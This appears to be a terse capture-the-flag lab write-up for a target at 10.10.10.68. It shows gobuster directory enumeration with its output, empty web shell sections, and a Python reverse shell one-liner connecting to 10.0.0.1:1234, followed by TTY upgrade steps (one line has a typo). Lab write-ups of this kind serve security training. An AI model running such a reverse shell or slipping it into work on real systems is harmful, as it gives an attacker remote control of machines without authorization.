


# <center>Web Server</center>

# Front Page




# Gobuster


```sql
$ gobuster dir -u 10.10.10.68 -w /usr/share/wordlists/dirb/common.txt  -o gobuster/arrexel.log
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/12 14:44:21 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 295]
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]                                
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/server-status        (Status: 403) [Size: 299]                                 
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
                                                                                 
===============================================================
2021/05/12 14:45:02 Finished
===============================================================
```


# Web Shell




# Reverse Shell
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'impoty pty; pty.spawn("/bin/bash")'

Ctrl+Z #to go to the background
stty raw -echo
fg
```